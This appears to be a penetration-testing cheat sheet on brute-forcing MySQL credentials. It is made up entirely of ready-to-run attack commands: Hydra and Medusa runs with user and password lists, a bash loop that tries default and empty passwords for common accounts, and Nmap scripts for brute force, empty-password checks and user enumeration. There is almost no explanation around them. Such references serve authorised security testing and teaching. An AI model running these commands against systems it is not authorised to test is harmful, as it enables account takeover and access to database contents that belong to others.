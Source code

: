 ## Credential Attacks

### Brute Force Attacks

#### Hydra
```bash
# MySQL brute force
hydra -L users.txt -P passwords.txt mysql://target

# Single user, multiple passwords
hydra -l root -P passwords.txt mysql://target

# Multiple users, single password
hydra -L users.txt -p password mysql://target

# Custom port
hydra -L users.txt -P passwords.txt mysql://target:3306
```

#### Medusa
```bash
# MySQL brute force with Medusa
medusa -h target -U users.txt -P passwords.txt -M mysql

# Single user attack
medusa -h target -u root -P passwords.txt -M mysql

# Verbose output
medusa -h target -U users.txt -P passwords.txt -M mysql -v 4
```

#### Custom Script Attack
```bash
# MySQL brute force script
#!/bin/bash
users=("root" "admin" "mysql" "user" "test")
passwords=("" "root" "admin" "mysql" "password" "123456")

for user in "${users[@]}"; do
    for pass in "${passwords[@]}"; do
        echo "Testing $user:$pass"
        mysql -u $user -p$pass -h target -e "SELECT 1;" 2>/dev/null && echo "[+] Success: $user:$pass"
    done
done
```

### Nmap Authentication Scripts
```bash
# MySQL brute force with Nmap
nmap -p 3306 --script=mysql-brute --script-args userdb=users.txt,passdb=passwords.txt target

# MySQL empty password check
nmap -p 3306 --script=mysql-empty-password target

# MySQL user enumeration
nmap -p 3306 --script=mysql-enum target
```

---